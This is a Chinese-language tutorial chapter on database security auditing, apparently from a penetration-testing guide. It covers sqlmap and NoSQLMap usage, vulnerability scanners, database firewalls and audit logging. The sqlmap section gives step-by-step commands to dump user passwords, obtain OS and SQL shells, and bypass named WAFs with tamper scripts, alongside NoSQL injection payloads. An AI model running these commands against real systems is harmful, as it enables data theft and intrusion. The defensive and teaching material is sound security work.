





## 九、数据库安全审计工具

数据库安全审计工具是"器"的集大成者——它将前文所讲的注入原理、防御策略、安全配置基线全部落地为可执行的自动化能力。一个合格的安全从业者，不仅要理解攻击原理，还必须熟练使用工具来验证防御措施是否真正生效。

本节从四个维度系统讲解数据库安全审计工具体系：



### 9.1 SQL注入测试工具

#### 9.1.1 sqlmap：自动化SQL注入渗透测试工具

sqlmap 是开源安全社区中最广泛使用的自动化SQL注入工具，支持对 MySQL、Oracle、PostgreSQL、Microsoft SQL Server、SQLite、MariaDB 等几乎所有主流关系型数据库的注入检测和利用。它是每个渗透测试工程师工具箱中的必备利器。

**安装与环境准备：**

```bash
# 方式一：从GitHub克隆（推荐，始终获取最新版本）
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git
cd sqlmap

# 方式二：通过包管理器安装（Kali Linux自带）
sudo apt install sqlmap

# 方式三：使用pip安装
pip install sqlmap

# 验证安装
python sqlmap.py --version
```

**基础用法——从简单到复杂：**

```bash
# 最基本的注入检测：指定目标URL
python sqlmap.py -u "http://example.com/page?id=1"

# 指定POST请求参数（登录表单场景）
python sqlmap.py -u "http://example.com/login" \
  --data="username=admin&password=test"

# 指定Cookie中的参数（需认证后才能访问的页面）
python sqlmap.py -u "http://example.com/dashboard" \
  --cookie="session_id=abc123; token=xyz"

# 指定HTTP头注入（较少见但存在）
python sqlmap.py -u "http://example.com/" \
  --headers="X-Forwarded-For: 1.1.1.1\nUser-Agent: Mozilla/5.0"
```

**核心参数详解：**

| 参数 | 功能 | 使用场景 |
|------|------|---------|
| `-u URL` | 指定目标URL | GET参数注入检测 |
| `--data` | POST数据 | POST参数注入检测 |
| `-p param` | 指定测试参数 | 跳过其他参数，专注测试特定参数 |
| `--dbs` | 枚举所有数据库 | 确认注入成功后，获取数据库列表 |
| `--tables` | 枚举当前数据库的所有表 | 进一步获取表结构 |
| `--columns` | 枚举指定表的列 | 了解数据结构，确定目标列 |
| `--dump` | 导出数据 | 提取目标表中的数据 |
| `--batch` | 使用默认选项自动运行 | 自动化脚本中使用，避免交互式确认 |
| `--level` | 测试等级(1-5) | 等级越高测试越深入，覆盖Cookie/HTTP头等 |
| `--risk` | 风险等级(1-3) | 等级越高可能触发破坏性操作（如时间盲注的SLEEP） |
| `--tamper` | 使用混淆脚本 | 绕过WAF过滤 |
| `--proxy` | 使用代理 | 流量代理到Burp Suite分析 |
| `--threads` | 并发线程数 | 加速盲注数据提取 |
| `--technique` | 指定注入技术 | BEUSTQ（布尔/报错/联合/堆叠/时间/内联） |
| `--os-shell` | 获取操作系统shell | 需要数据库FILE权限 |
| `--sql-shell` | 获取SQL交互shell | 手动执行任意SQL语句 |
| `--wizard` | 向导模式 | 初学者友好，逐步引导配置 |

**实战流程——完整的注入利用链：**

```bash
# 步骤1：检测注入点，使用高测试等级
python sqlmap.py -u "http://target.com/news?id=5" \
  --level=3 --risk=2 --batch

# 步骤2：确认存在注入后，枚举数据库
python sqlmap.py -u "http://target.com/news?id=5" \
  --dbs --batch

# 步骤3：选择目标数据库，枚举表
python sqlmap.py -u "http://target.com/news?id=5" \
  -D target_db --tables --batch

# 步骤4：选择目标表，枚举列
python sqlmap.py -u "http://target.com/news?id=5" \
  -D target_db -T users --columns --batch

# 步骤5：导出数据
python sqlmap.py -u "http://target.com/news?id=5" \
  -D target_db -T users -C "username,password" --dump --batch

# 步骤6：尝试获取操作系统shell（需要FILE权限）
python sqlmap.py -u "http://target.com/news?id=5" \
  --os-shell

# 步骤7：直接执行SQL语句
python sqlmap.py -u "http://target.com/news?id=5" \
  --sql-shell
```

**绕过WAF/IDS的tamper脚本：**

tamper脚本是sqlmap对抗WAF的核心能力。它通过修改Payload的编码、语法结构来绕过安全设备的检测规则：

```bash
# 常用tamper组合
# space2comment：将空格替换为/**/，绕过基于空格的过滤
python sqlmap.py -u "http://target.com/?id=1" \
  --tamper=space2comment

# 绕过安全狗（国内WAF）
python sqlmap.py -u "http://target.com/?id=1" \
  --tamper=space2comment,between,randomcase

# 绕过ModSecurity
python sqlmap.py -u "http://target.com/?id=1" \
  --tamper=space2plus,modsecurityversioned

# 多层混淆组合（综合绕过方案）
python sqlmap.py -u "http://target.com/?id=1" \
  --tamper=space2comment,randomcase,between,charencode
```

**常用tamper脚本速查表：**

| Tamper脚本 | 功能 | 绕过目标 |
|-----------|------|---------|
| `space2comment` | ` ` → `/**/` | 基于空格的过滤规则 |
| `space2plus` | ` ` → `+` | URL编码层面的空格检测 |
| `between` | `>` → `NOT BETWEEN 0 AND #` | 大于号过滤 |
| `randomcase` | 随机大小写 | 关键字大小写匹配 |
| `charencode` | URL编码全部字符 | 简单的字符匹配 |
| `base64encode` | Base64编码Payload | Base64传输的参数 |
| `equaltolike` | `=` → `LIKE` | 等号过滤 |
| `greatest` | `>` → `GREATEST()` | 比较运算符过滤 |
| `apostrophemask` | `'` → `%EF%BC%87` | 单引号过滤（UTF-8全角） |
| `halfversionedmorekeywords` | MySQL注释内嵌关键字 | MySQL版本<5.0的环境 |

**高级功能——数据提取优化：**

```bash
# 使用多线程加速盲注（默认1线程）
python sqlmap.py -u "http://target.com/?id=1" \
  --threads=10 --dump -T users -D db

# 使用预定义的Payload字典
python sqlmap.py -u "http://target.com/?id=1" \
  --custom-payloads=/path/to/payloads.txt

# 从Burp Suite的请求日志中批量测试
python sqlmap.py -l /path/to/burp_requests.log --batch

# 使用自定义SQL查询提取数据
python sqlmap.py -u "http://target.com/?id=1" \
  --sql-query="SELECT username, password FROM users LIMIT 10"

# 断点续传（中断后恢复之前的扫描）
python sqlmap.py -u "http://target.com/?id=1" \
  --session=/tmp/sqlmap_session.sqlite
```

**sqlmap的内部工作原理：**



#### 9.1.2 jSQL Injection：Java GUI注入工具

对于不习惯命令行操作的用户，jSQL Injection 提供了图形化界面，适合在教学和初步验证场景中使用。

```bash
# 下载运行
wget https://github.com/ron190/jsql-injection/releases/latest/download/jSqlInjection.jar
java -jar jSqlInjection.jar
```

**核心功能：**
- 支持 GET/POST/Cookie/Header 多种注入点
- 自动检测数据库类型（MySQL/MSSQL/PostgreSQL/Oracle/SQLite）
- 可视化展示数据库结构（树形表→列→数据）
- 内置编码/解码工具（Base64、URL、Hex）
- 支持导出扫描结果为报告

**适用场景：** 教学演示、快速验证单个注入点、对命令行工具不熟悉的初学者。在生产级渗透测试中，仍然推荐 sqlmap 的命令行操作——自动化程度更高、脚本化能力更强。

#### 9.1.3 NoSQLMap：NoSQL数据库注入专用工具

针对 MongoDB、Redis 等 NoSQL 数据库的注入测试，sqlmap 无法覆盖。NoSQLMap 填补了这一空白。

```bash
# 安装
git clone https://github.com/codingo/NoSQLMap.git
cd NoSQLMap
pip install -r requirements.txt

# 运行
python nosqlmap.py
```

**支持的攻击向量：**

| 攻击类型 | 目标数据库 | 攻击原理 | 典型Payload |
|---------|-----------|---------|------------|
| 操作符注入 | MongoDB | 利用 `$gt`、`$ne`、`$regex` 绕过认证 | `{"username": {"$gt": ""}, "password": {"$gt": ""}}` |
| JavaScript注入 | MongoDB | `$where` 子句中的JS代码注入 | `{"$where": "this.password == 'xxx' \|\| '1'=='1'"}` |
| 未授权访问 | MongoDB | 无认证配置的默认端口访问 | 直接连接 27017 端口 |
| 未授权访问 | Redis | 无密码保护的Redis实例 | `redis-cli -h target` 连接后执行命令 |
| Lua脚本注入 | Redis | EVAL命令中的Lua脚本注入 | `EVAL "redis.call('set','key','val')" 0` |

**NoSQLMap自动化测试流程：**

```text
启动NoSQLMap
├── 选择攻击模式
│   ├── 模式1：Web应用注入测试
│   │   ├── 输入目标URL和参数
│   │   ├── 自动检测参数类型
│   │   ├── 测试$gt/$ne/$regex操作符注入
│   │   └── 测试JavaScript $where注入
│   ├── 模式2：数据库直接访问测试
│   │   ├── MongoDB：测试27017端口未授权访问
│   │   ├── Redis：测试6379端口未授权访问
│   │   └── 尝试枚举数据库/集合/文档
│   └── 模式3：自动化扫描
│       ├── 批量扫描目标列表
│       └── 生成漏洞报告
└── 输出结果
    ├── 漏洞类型和严重等级
    ├── 复现步骤和Payload
    └── 修复建议
```

### 9.2 数据库漏洞扫描器

漏洞扫描器与注入测试工具的区别在于：注入测试工具专注于SQL/NoSQL注入这一种漏洞类型，而漏洞扫描器覆盖更广的安全检查面——包括配置错误、已知CVE漏洞、权限问题、弱密码、默认凭证等。

#### 9.2.1 Scuba：Imperva免费数据库扫描器

Scuba 是 Imperva 公司提供的免费数据库安全扫描工具，适合快速评估数据库的安全配置基线。

**支持的数据库：** Oracle、SQL Server、DB2、Sybase、MySQL（有限支持）

**扫描范围：**
- 默认凭证和弱密码检测
- 安全配置基线检查（与CIS基准对比）
- 已知CVE漏洞检测
- 权限过度分配检查
- 审计日志配置检查
- 加密配置检查

**使用方法：**

Scuba 是 Windows 桌面应用，提供图形化扫描配置和结果报告：

```text
启动Scuba
├── 配置数据库连接
│   ├── 数据库类型（Oracle/SQL Server/DB2/Sybase）
│   ├── 主机地址和端口
│   ├── 认证凭证（DBA级别账号）
│   └── SSL/TLS设置
├── 选择扫描策略
│   ├── 完整扫描（所有检查项）
│   ├── 快速扫描（关键检查项）
│   └── 自定义扫描（选择特定检查类别）
├── 执行扫描
│   ├── 实时显示扫描进度
│   └── 显示发现的问题
└── 生成报告
    ├── 按严重等级分类（高/中/低/信息）
    ├── 每个问题的详细描述
    ├── 修复建议（含SQL修复语句）
    └── 合规性映射（CIS/PCI-DSS/SOX）
```

#### 9.2.2 Nessus：通用漏洞扫描器的数据库模块

Nessus 是业界最广泛使用的通用漏洞扫描器，其数据库审计插件覆盖了主流数据库的常见安全问题。

```bash
# 安装Nessus（以Debian/Ubuntu为例）
wget https://www.tenable.com/downloads/nessus
dpkg -i Nessus-*-ubuntu1404_amd64.deb
systemctl start nessusd

# 通过Web界面访问：https://localhost:8834
```

**Nessus数据库相关插件族：**

| 插件族 | 覆盖范围 | 检测内容 |
|-------|---------|---------|
| MySQL | MySQL 5.x/8.x | 默认凭证、权限配置、CVE漏洞、SSL配置 |
| PostgreSQL | PostgreSQL 9.x/15.x | pg_hba.conf配置、认证方式、已知漏洞 |
| MSSQL | SQL Server 2012-2022 | xp_cmdshell配置、SA弱密码、权限提升 |
| Oracle | Oracle 11g-21c | TNS Listener漏洞、默认账户、权限配置 |
| MongoDB | MongoDB 4.x/6.x | 认证配置、绑定地址、版本漏洞 |
| Redis | Redis 5.x/7.x | 密码保护、危险命令重命名、绑定地址 |

**Nessus数据库扫描配置最佳实践：**

```text
创建扫描策略
├── 基本设置
│   ├── 扫描名称：DB-Security-Audit-2026Q2
│   ├── 目标范围：192.168.1.0/24
│   └── 端口范围：3306,5432,1433,1521,27017,6379
├── 发现设置
│   ├── 端口扫描方法：TCP（数据库端口通常不响应UDP）
│   ├── 服务识别：启用（确定数据库类型和版本）
│   └── 应用识别：启用（识别数据库客户端版本）
├── 评估设置
│   ├── 启用数据库相关插件族
│   ├── 覆盖CVE检测和配置审计
│   └── 设置暴力破解参数（谨慎使用，避免锁定账户）
├── 报告设置
│   ├── 按CVSS评分排序
│   ├── 包含修复建议
│   └── 导出格式：HTML/PDF/CSV/Nessus
└── 调度设置
    ├── 定期扫描（建议每月一次）
    └── 与变更管理流程集成
```

#### 9.2.3 DbProtect：企业级数据库安全平台

DbProtect 是 Application Security Inc.（后被 Trustwave 收购）的企业级数据库安全平台，提供从扫描到监控的全生命周期管理。

**核心能力矩阵：**

| 功能 | 描述 | 价值 |
|------|------|------|
| 资产发现 | 自动发现网络中的所有数据库实例 | 解决"影子数据库"问题 |
| 漏洞评估 | 基于已知CVE和配置基线的全面扫描 | 量化安全风险 |
| 用户权限审计 | 分析数据库用户权限分配，识别过度授权 | 落实最小权限原则 |
| 配置审计 | 对比安全基线（CIS/STIG），生成差距报告 | 持续合规 |
| 敏感数据发现 | 自动定位包含信用卡号、SSN等敏感数据的表 | PCI-DSS合规 |
| 活动监控 | 实时监控数据库操作，异常行为告警 | 入侵检测 |
| 合规报告 | 一键生成PCI-DSS、SOX、HIPAA等合规报告 | 审计支撑 |

**与AppDetectivePro的对比：**

AppDetectivePro（IBM）同样是企业级数据库扫描工具，但定位有所不同：

| 对比维度 | DbProtect | AppDetectivePro |
|---------|-----------|----------------|
| 厂商 | Trustwave | IBM |
| 定位 | 专注数据库安全 | IBM安全产品线的一部分 |
| 扫描深度 | 更深入的权限分析 | 更广的漏洞库覆盖 |
| 实时监控 | 内置DAM功能 | 需要配合Guardium |
| 报告能力 | PCI-DSS专项优化 | 多合规框架支持 |
| 部署复杂度 | 中等 | 较高（IBM生态依赖） |
| 适用规模 | 中大型企业 | 大型企业/IBM技术栈 |

### 9.3 数据库防火墙与活动监控

数据库防火墙和数据库活动监控（DAM, Database Activity Monitoring）是防御体系的核心组件。如果说注入测试工具是"矛"，那么防火墙和DAM就是"盾"。

#### 9.3.1 数据库防火墙

数据库防火墙部署在应用服务器与数据库服务器之间，实时分析SQL流量，拦截恶意请求。

**三种部署模式：**



| 模式 | 工作方式 | 优点 | 缺点 | 适用场景 |
|------|---------|------|------|---------|
| 代理模式 | 所有流量经过防火墙代理转发 | 可以阻断、延迟低 | 单点故障风险、性能瓶颈 | 需要实时阻断的生产环境 |
| 旁路模式 | 镜像流量分析，不阻断 | 无性能影响、无单点故障 | 只能告警不能阻断 | 监控和审计场景 |
| 内嵌模式 | 嵌入数据库引擎内部运行 | 深度分析、最低延迟 | 兼容性问题、升级复杂 | 高安全要求的核心数据库 |

**核心检测规则：**

```text
数据库防火墙规则体系
├── 白名单规则（推荐）
│   ├── 允许的SQL模板（参数化查询模式）
│   ├── 允许的表和列访问范围
│   ├── 允许的用户和IP来源
│   └── 允许的操作类型（SELECT/INSERT/UPDATE/DELETE）
│
├── 黑名单规则
│   ├── 已知注入Payload特征（UNION SELECT、OR 1=1等）
│   ├── 危险函数调用（LOAD_FILE、INTO OUTFILE、xp_cmdshell）
│   ├── 异常字符序列（多层编码、特殊字符组合）
│   └── 批量数据导出操作（单次SELECT返回超过阈值行数）
│
├── 行为规则
│   ├── 查询频率异常（短时间内大量查询）
│   ├── 查询时间异常（凌晨3点的批量数据导出）
│   ├── 查询模式异常（突然从SELECT变成DROP）
│   ├── 权限越级访问（普通用户访问系统表）
│   └── 数据量异常（单次查询返回数据量超过基线）
│
└── 合规规则
    ├── 敏感表访问必须记录审计日志
    ├── DDL操作必须经过审批流程
    ├── 特权操作实时告警
    └── 数据导出操作需要二次认证
```

**主流数据库防火墙产品对比：**

| 产品 | 厂商 | 支持数据库 | 部署方式 | 特色功能 |
|------|------|-----------|---------|---------|
| DBF (Database Firewall) | Oracle | Oracle/SQL Server/DB2 | 代理+旁路 | 与Oracle数据库深度集成 |
| SQL Firewall | MySQL Enterprise | MySQL | 内嵌 | MySQL原生支持，零配置 |
| DbProtect | Trustwave | 多种 | 代理+旁路 | 集成漏洞扫描和DAM |
| GreenSQL | 开源社区 | MySQL/PostgreSQL | 代理 | 免费开源，适合中小企业 |
| DBNetworks | DBNetworks | Oracle/SQL Server | 旁路 | 专注SQL流量分析 |
| Data Security | Imperva | 多种 | 代理+旁路+内嵌 | 三模式支持，功能最全面 |

#### 9.3.2 数据库活动监控（DAM）

DAM 不同于防火墙的"拦截"定位，它侧重于全面记录和分析所有数据库活动，用于事后审计、异常检测和合规证明。

**DAM的核心架构：**



**DAM检测的关键场景：**

| 场景 | 检测指标 | 告警等级 | 响应动作 |
|------|---------|---------|---------|
| SQL注入尝试 | 异常SQL语法特征、Payload签名 | 高危 | 实时阻断+告警 |
| 特权用户异常操作 | DBA在非工作时间执行DDL | 中危 | 记录+告警 |
| 批量数据导出 | 单次查询返回行数超过阈值 | 高危 | 记录+告警+二次确认 |
| 权限提升尝试 | GRANT语句执行 | 高危 | 阻断+告警 |
| 异常登录 | 新IP/新客户端/新时间 | 中危 | 记录+告警 |
| 数据篡改 | UPDATE/DELETE影响行数异常 | 高危 | 记录快照+告警 |
| 数据库配置变更 | SET GLOBAL/ALTER SYSTEM | 高危 | 记录+告警 |

#### 9.3.3 RASP（运行时应用自我保护）

RASP 是比数据库防火墙更上一层的防护方案——它嵌入到应用运行时中，从应用层拦截恶意数据库操作。

```python
# RASP在应用层的防护原理（伪代码示例）
class DatabaseRASP:
    def before_query(self, sql, params):
        """在SQL执行前进行检查"""
        # 检查1：SQL语法分析（AST级别）
        ast = self.parse_sql(sql)
        if ast.contains_union() and not self.is_whitelisted(sql):
            self.block("UNION注入检测")
            return None

        # 检查2：参数化检查
        if self.has_string_concatenation(sql):
            self.alert("检测到字符串拼接SQL，建议使用参数化查询")

        # 检查3：返回行数限制
        if ast.is_select() and not ast.has_limit():
            self.warn("SELECT语句缺少LIMIT子句")

        # 检查4：敏感表访问
        tables = ast.extract_tables()
        if any(t in SENSITIVE_TABLES for t in tables):
            self.audit_log(f"敏感表访问: {tables}")

        return self.execute(sql, params)

    def after_query(self, result):
        """在SQL执行后进行检查"""
        # 检查返回数据量
        if len(result) > DATA_THRESHOLD:
            self.alert(f"异常大量数据返回: {len(result)}行")
```

### 9.4 日志审计与合规工具

#### 9.4.1 MySQL审计日志

MySQL提供多种审计日志方案，从内置的通用查询日志到企业级审计插件。

**通用查询日志（General Query Log）——基础审计：**

```sql
-- 启用通用查询日志（记录所有SQL语句）
SET GLOBAL general_log = 'ON';
SET GLOBAL general_log_file = '/var/log/mysql/general.log';

-- 查看当前配置
SHOW VARIABLES LIKE 'general_log%';
```

**注意：** 通用查询日志会记录所有SQL语句，对性能影响显著（可降低10-30%吞吐量），仅适合调试环境或短期审计需求，不建议在生产环境长期开启。

**慢查询日志（Slow Query Log）——性能审计：**

```sql
-- 启用慢查询日志
SET GLOBAL slow_query_log = 'ON';
SET GLOBAL slow_query_log_file = '/var/log/mysql/slow.log';
SET GLOBAL long_query_time = 1;  -- 超过1秒的查询记录

-- 查看配置
SHOW VARIABLES LIKE 'slow_query%';
```

**MySQL Enterprise Audit——企业级审计：**

```sql
-- 安装审计插件
INSTALL PLUGIN audit_log SONAME 'audit_log.so';

-- 配置审计策略
SET GLOBAL audit_log_policy = 'ALL';  -- ALL/LOGINS/QUERIES/NONE
SET GLOBAL audit_log_format = 'JSON';  -- OLD/NEW/JSON/CSV

-- 审计过滤规则（MySQL 8.0+）
SELECT audit_log_filter_set_filter('db_audit_filter', '{
  "filter": {
    "class": [
      {
        "name": "table_access",
        "event": [
          {"name": "access", "log": true, "table": {"name": "users", "database": "production"}}
        ]
      },
      {
        "name": "general",
        "event": [
          {"name": "status", "log": true}
        ]
      }
    ]
  }
}');
```

**Audit日志JSON格式示例：**

```json
{
  "timestamp": "2026-06-25 14:30:22",
  "id": 1234,
  "class": "table_access",
  "event": "read",
  "connectionid": 5678,
  "account": {"user": "app_user", "host": "192.168.1.100"},
  "login": {"user": "app_user", "os": "", "ip": "192.168.1.100", "proxy": ""},
  "table_access_data": {
    "db": "production",
    "table": "users",
    "sql_command": "SELECT",
    "query": "SELECT * FROM users WHERE id = 1"
  }
}
```

#### 9.4.2 PostgreSQL审计——pgAudit

pgAudit 是 PostgreSQL 官方推荐的审计扩展，比默认的 `log_statement` 提供更细粒度的审计控制。

```sql
-- 安装pgAudit
-- 在postgresql.conf中添加
shared_preload_libraries = 'pgaudit'

-- 重启PostgreSQL后
CREATE EXTENSION pgaudit;

-- 配置审计级别
-- session级别：记录会话中的所有语句
ALTER SYSTEM SET pgaudit.log = 'read, write, ddl, role';

-- 对象级别：只审计特定对象
ALTER SYSTEM SET pgaudit.log_catalog = 'off';  -- 不记录系统表查询
ALTER SYSTEM SET pgaudit.log_parameter = 'on';  -- 记录SQL参数值
ALTER SYSTEM SET pgaudit.log_statement_once = 'on';  -- 每条语句只记录一次

-- 重新加载配置
SELECT pg_reload_conf();
```

**pgAudit审计等级：**

| 等级 | 覆盖范围 | 性能影响 | 适用场景 |
|------|---------|---------|---------|
| `read` | SELECT、COPY TO | 低 | 数据访问审计 |
| `write` | INSERT、UPDATE、DELETE、TRUNCATE、COPY FROM | 中 | 数据变更审计 |
| `ddl` | CREATE、ALTER、DROP | 低 | 结构变更审计 |
| `role` | GRANT、REVOKE、CREATE/ALTER/DROP ROLE | 低 | 权限变更审计 |
| `misc` | DISCARD、FETCH、CHECKPOINT | 低 | 杂项操作审计 |
| `all` | 以上全部 | 高 | 全面审计（合规要求） |

#### 9.4.3 SQL Server审计

SQL Server 提供了 Server Audit 和 Database Audit Specification 两级审计架构：

```sql
-- 创建服务器级审计
CREATE SERVER AUDIT ProductionAudit
TO FILE (
    FILEPATH = 'C:\SQLAudit\',
    MAXSIZE = 100 MB,
    MAX_ROLLOVER_FILES = 50
)
WITH (
    QUEUE_DELAY = 1000,       -- 延迟写入（毫秒），降低性能影响
    ON_FAILURE = CONTINUE      -- 审计写入失败时继续运行
);

-- 创建数据库级审计规范
CREATE DATABASE AUDIT SPECIFICATION DBAuditSpec
FOR SERVER AUDIT ProductionAudit
ADD (SELECT, INSERT, UPDATE, DELETE ON dbo.Users BY public),
ADD (SCHEMA_OBJECT_CHANGE_GROUP),
ADD (DATABASE_PERMISSION_CHANGE_GROUP),
ADD (LOGIN_CHANGE_PASSWORD_GROUP)
WITH (STATE = ON);

-- 启用审计
ALTER SERVER AUDIT ProductionAudit WITH (STATE = ON);

-- 查看审计日志
SELECT * FROM sys.fn_get_audit_file(
    'C:\SQLAudit\ProductionAudit_*.sqlaudit',
    DEFAULT, DEFAULT
);
```

#### 9.4.4 MongoDB审计

MongoDB Enterprise 提供内置审计功能：

```javascript
// 启动MongoDB时启用审计
mongod --dbpath /data/db \
  --setParameter auditAuthorizationSuccess=true

// 配置审计过滤器（mongod.conf）
{
  "auditLog": {
    "destination": "file",
    "format": "JSON",
    "path": "/var/log/mongodb/audit.json",
    "filter": {
      "atype": {
        "$in": [
          "authenticate",
          "authCheck",
          "createCollection",
          "dropCollection",
          "createIndex",
          "dropIndex"
        ]
      }
    }
  }
}
```

#### 9.4.5 Redis审计

Redis 本身没有内置审计功能，但可以通过以下方式实现：

```bash
# 方式1：Redis MONITOR命令（调试用，高开销）
redis-cli MONITOR > /var/log/redis/monitor.log 2>&1 &

# 方式2：使用Redis的Keyspace通知追踪数据变更
# 在redis.conf中启用
notify-keyspace-events Kgx  # K=键空间事件, g=通用命令, x=过期事件

# 方式3：使用tcpdump抓包分析（生产环境推荐）
tcpdump -i eth0 port 6379 -w /var/log/redis/capture.pcap

# 方式4：使用代理层实现审计
# 如 Redis Proxy (redis-shake/twemproxy) 记录所有命令
```

### 9.5 综合审计工作流

在实际的企业安全审计中，单一工具往往无法满足需求。以下是基于多种工具组合的综合审计工作流：



**审计清单——必查项目：**

```text
数据库安全审计检查清单
│
├── 一、认证安全
│   □ 默认密码是否已修改
│   □ 密码复杂度策略是否符合要求（最少12位，含大小写/数字/特殊字符）
│   □ 密码过期策略是否配置
